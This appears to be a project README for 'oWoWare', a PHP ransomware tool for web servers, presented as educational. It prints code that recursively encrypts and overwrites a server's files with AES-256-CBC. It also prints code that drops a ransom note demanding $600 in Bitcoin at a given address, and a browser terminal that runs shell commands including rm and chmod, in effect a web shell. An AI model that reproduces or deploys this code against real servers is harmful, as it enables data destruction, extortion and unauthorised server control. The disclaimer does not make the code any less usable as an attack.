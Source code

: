 **oWoWare** is ransomware focused on web servers, developed in PHP. It provides a secure interface for tool management and terminal command execution. With file encryption and decryption functionalities using `AES-256-CBC (Cipher Block Chaining with a 256-bit key)`, as well as an integrated terminal, **oWoWare** is designed for technical testing and raising awareness about protection against ransomware attacks.

#### Important Note

> oWoWare ransomware developed for educational, simulation, and attack demonstration purposes.<br>
> **The author** is not **responsible** for any misuse of it.
---

## Video POC
[![oWoWare Ransomware Simulation](https://img.youtube.com/vi/7Msibaqlpwc/0.jpg)](https://www.youtube.com/watch?v=7Msibaqlpwc)


## Description

### 1. **File Encryption:**
   - **Encryption Type Used**: 
     - **AES-256-CBC** (Cipher Block Chaining with a 256-bit key) is used, a symmetric encryption algorithm. 
     - The encryption key must be at least 32 characters long to ensure security in this mode.
     - The code also generates an **IV (Initialization Vector)** using `openssl_random_pseudo_bytes()`, which is concatenated to the encrypted content and stored alongside the file.

```php
$iv_length = openssl_cipher_iv_length('AES-256-CBC');
$iv = openssl_random_pseudo_bytes($iv_length);

$encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
$final_content = $iv . $encrypted_contents;
file_put_contents($file_path, $final_content);
```

   - **Encryption Process**:
     - Each file in the specified directory is encrypted, skipping files named `index.html` or `index.php`.
     - The encrypted content includes the ***IV*** and the encrypted content concatenated. This encrypted content replaces the original file.

```php
function encrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    // Iterate over files and subdirectories
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            // Encrypt the file content
            $iv = openssl_random_pseudo_bytes($iv_length);
            $encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            $final_content = $iv . $encrypted_contents;
            file_put_contents($file_path, $final_content);
        }
    }
}
```
     
   - **Error Handling**:
     - The code handles errors in file reading, IV generation, encryption, and writing the encrypted files.
     - Errors are stored in the `$error_files` array, and successfully processed files are listed in `$processed_files`.


### 2. **File Decryption:**
   - **Decryption Process**:
     - The ***IV*** is extracted from the encrypted content and used to decrypt the files using the same symmetric key `(AES-256-CBC)`.
     - The decrypted files are rewritten with the original content, restoring the file.
   
   - **Error Handling**:
     - Errors in reading, decrypting, and writing files are handled similarly to the encryption process.

```php
     function decrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            $iv = substr($file_contents, 0, $iv_length);
            $encrypted_contents = substr($file_contents, $iv_length);
            $decrypted_contents = openssl_decrypt($encrypted_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            file_put_contents($file_path, $decrypted_contents);
        }
    }
}
```


### 3. **Login and Security Management:**
   - **Authentication**:
     - The login system compares a predefined username (`admin`) and a password stored as a **bcrypt hash**.
     - The stored hash uses bcrypt with a work factor of 15, ensuring brute force attempts are slow.
     - It protects against brute force attacks by limiting login attempts to 5 failed attempts before locking the user out for 15 minutes.
   
   - **CSRF Tokens (Cross-Site Request Forgery)**:
     - To protect against CSRF attacks, a CSRF token is generated and validated on each POST request.
   
   - **Session ID Regeneration**:
     - Once the user successfully authenticates, a new session is generated with `session_regenerate_id(true)` to prevent session fixation attacks.

```php
     define('USERNAME', 'admin');
define('PASSWORD_HASH', '$2a$15$xEbegd2Cf26u2/2dw4LLXu0uJbqifWGFWXXh0gBkTDoImJOCJ5Ogu');

if ($username === USERNAME && password_verify($password, PASSWORD_HASH)) {
    session_regenerate_id(true);
    $_SESSION['authenticated'] = true;
    $_SESSION['login_attempts'] = 0;
    unset($_SESSION['locked_until']);
}
```

### 4. **File Encryption by Directory**:
   - The user can specify a directory to encrypt or decrypt files. The directory path is validated before proceeding.
   - The code uses `RecursiveDirectoryIterator` and `RecursiveIteratorIterator` to iterate through the files and directories within the target directory.
   
### 5. **Files Created When Encrypting the Directory**:
   - **`index.html` or `index.php` Files**:
     - An `index.php` or `index.html` file is generated or updated in each encrypted directory with a message indicating that the files have been encrypted.
     - The file content includes a message simulating a ransomware attack, demanding $600 in Bitcoin to a specific address.

```php
function create_index_file($dir_path, &$error_files) {
    $content = "
<pre><center><b>
         __      ____      __     
        / /     / __ \     \ \    
       / / ___ | |  | | ___ \ \   
      > / / _ \| |  | |/ _ \ > \  
     / ^ ( (_) )\ \/ /( (_) ) ^ \ 
    /_/ \_\___(___||___)___/_/ \_\
                     oWoWare V.1.0
<h2>Ooops, your files have been encrypted!</h2>
Send $600 worth of bitcoin to this address:
bc1qar0srrr7xfkvy5l643lydnw9re59gtzzwf8ch7
</pre></center></b>";
    file_put_contents($index_file, $content);
}
```

### 6. **Integrated Terminal Functionality**:
   - The system has an integrated terminal that allows commands to be executed from the browser.
   - Allowed commands are restricted by a whitelist (`$allowed_commands`), which includes common system administration commands like `ls`, `cd`, `whoami`, `ping`, among others.
   - The results of the executed commands are displayed in real-time in the user interface. 
   - Each executed command is logged in a log file in the `logs/commands.log` directory.

```php
$allowed_commands = ['ls', 'pwd', 'cat', 'cp', 'mv', 'rm', 'mkdir', 'chmod', 'chown', 'ping', 'top', 'df', 'uname', ...];

if (in_array($base_command, $allowed_commands)) {
    $safe_command = escapeshellcmd($command);
    $output = shell_exec($safe_command . ' 2>&1');
}
```

### 7. **Password Management for Encrypting/Decrypting**:
   - The user must provide an encryption key (minimum of 32 characters) to encrypt or decrypt the files.
   - If the key is less than 32 characters, an error is shown indicating that the key is insufficient.
```php
if (strlen($key) < 32) {
    $encryption_error = "The key must be at least 32 characters for AES-256.";
}
```
---
## ⚠️ Warning: Use in Controlled Environments

### Tool Description

This tool is designed for educational purposes. Its main function is to encrypt and decrypt files, as well as execute commands in an integrated terminal. It provides advanced functionalities for handling files at a system level, including the ability to encrypt entire directories using the **AES-256-CBC** algorithm. It also includes an interface for command execution directly on the server.

## Potential Risks

### 1. **File Encryption**
File encryption is an extremely sensitive operation. If encryption keys are lost or mismanaged, the files may become unrecoverable. Additionally, any misuse of the encryption system could compromise the integrity of the files or data security.

### 2. **Command Execution**
The integrated terminal allows for the execution of a predefined list of system commands. Although precautions have been taken to limit the allowed commands, misuse of this functionality could lead to accidental modification or deletion of server files.

## Usage Recommendations

### 1. **Controlled Environment**
This tool should be used **exclusively** in controlled environments, such as development servers or testing environments. It should never be implemented on production servers or systems accessible to the public without appropriate security precautions.

